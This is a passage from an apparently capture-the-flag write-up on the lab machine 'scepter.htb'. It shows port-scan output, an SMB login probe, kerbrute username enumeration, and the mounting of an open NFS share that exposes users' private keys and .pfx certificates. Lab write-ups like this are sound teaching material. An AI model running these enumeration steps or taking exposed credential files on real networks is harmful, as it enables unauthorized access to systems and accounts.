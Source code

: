 ```bash
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58506/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58523/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## Enumeration and NFS
First we are goint to enumerate some things :

```bash
➜ nxc smb scepter.htb -u 'toto' -p ''

SMB         10.129.28.117   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.28.117   445    DC01             [-] scepter.htb\toto: STATUS_LOGON_FAILURE

➜ kerbrute userenum --domain "scepter.htb" --dc scepter.htb /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 04/21/25 - Ronnie Flathers @ropnop

2025/04/21 14:41:27 >  Using KDC(s):
2025/04/21 14:41:27 >  	scepter.htb:88

2025/04/21 14:41:32 >  [+] VALID USERNAME:	 administrator@scepter.htb
```
No guest session and ```kerbrute``` is useless here

The port **2049** is open, let's check it :

showmount -e scepter.htb
Export list for scepter.htb:
/helpdesk (everyone)

Ok nice, mount it :

```bash
➜  ethicxz mount -t nfs -o vers=4,nolock 10.129.28.117:/helpdesk ./toto

➜  toto ls -la
total 25
drwx------  2 nobody 4294967294   64 nov.   2 04:02 .
drwxr-xr-x 59 ethicxz ethicxz     4096 avril 21 14:43 ..
-rwx------  1 nobody 4294967294 2484 nov.   2 04:01 baker.crt
-rwx------  1 nobody 4294967294 2029 nov.   2 04:01 baker.key
-rwx------  1 nobody 4294967294 3315 nov.   2 04:01 clark.pfx
-rwx------  1 nobody 4294967294 3315 nov.   2 04:01 lewis.pfx
-rwx------  1 nobody 4294967294 3315 nov.   2 04:02 scott.pfx
```